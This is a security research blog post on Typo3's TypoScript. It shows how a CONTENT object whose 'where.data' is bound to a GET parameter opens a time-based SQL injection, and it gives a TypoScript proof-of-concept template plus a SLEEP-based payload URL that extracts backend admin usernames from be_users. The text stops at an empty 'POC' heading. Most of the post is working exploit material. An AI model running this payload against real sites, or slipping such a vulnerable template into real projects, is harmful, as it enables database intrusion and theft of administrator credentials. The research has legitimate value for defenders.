



# B5: Tricks with Typo3's template language TypoScript (part 2: SQL injection)

It is recommended to read the previous article of the same series [B4: Tricks with Typo3’s template language TypoScript (part 1: Remote Command Execution)](https://therealcoiffeur.github.io/b4]).

## SQL injection

It is possible to exploit a time-based SQL injection using the `CONTENT` object.

> An object with the content type CONTENT is designed to generate content by allowing to finely select records and have them rendered.
Template example given from the TypoScript documentation:

URL: https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/ContentObjects/Content/Index.html
```
page = PAGE
page.typeNum = 0
page.10 = CONTENT
page.10.table = tt_content
page.10.select {
}
page.10.renderObj = COA
page.10.renderObj {
   10 = TEXT
   10.stdWrap.field = bodytext
   10.stdWrap.wrap = <p>|</p>
}
```



So I tried to replace the `tt_content` table with a more interesting table like `be_users` but it seems to be impossible to query this table because an error code is returned.

```
page = PAGE
page.typeNum = 0
page.10 = CONTENT
page.10.table = be_users
page.10.select {
}
page.10.renderObj = COA
page.10.renderObj {
   10 = TEXT
   10.stdWrap.field = bodytext
   10.stdWrap.wrap = <p>|</p>
}
```


But while reading the documentation of the `select` property I realized that it was possible to define the `where` property considered as dangerous in the documentation.

> Do not use GET or POST data like GPvar directly with this object! Avoid SQL injections! Don’t trust any external data! Secure any unknown data, for example with intval. - https://docs.typo3.org/m/typo3/reference-typoscript/master/en-us/Functions/Select.html?highlight=select#select

So we will use their advice in exactly the opposite way by creating the following template:

```
page = PAGE
# Start POC of Time Based SQLi
page.1 = CONTENT
page.1 {
  table = tt_content
  select {
    where.data = GP:sql
    andWhere.wrap = |
  }
}
# End POC of Time Based SQLi
```

The only thing left to do is to exploit the vulnerability by injecting an SQL query (example: `(IF(substr((SELECT username FROM be_users WHERE uid=1),1,1)='a',SLEEP(5),0))`) in the `$_GET['sql']` parameter of a page using this template which gives us the following example:
- http://127.0.0.1/projects/typo3/9.5.24/index.php?id=1&&no_cache=1&sql=(IF(substr((SELECT%20username%20FROM%20be_users%20WHERE%20uid=1),1,1)=%27a%27,SLEEP(5),0))

#### POC


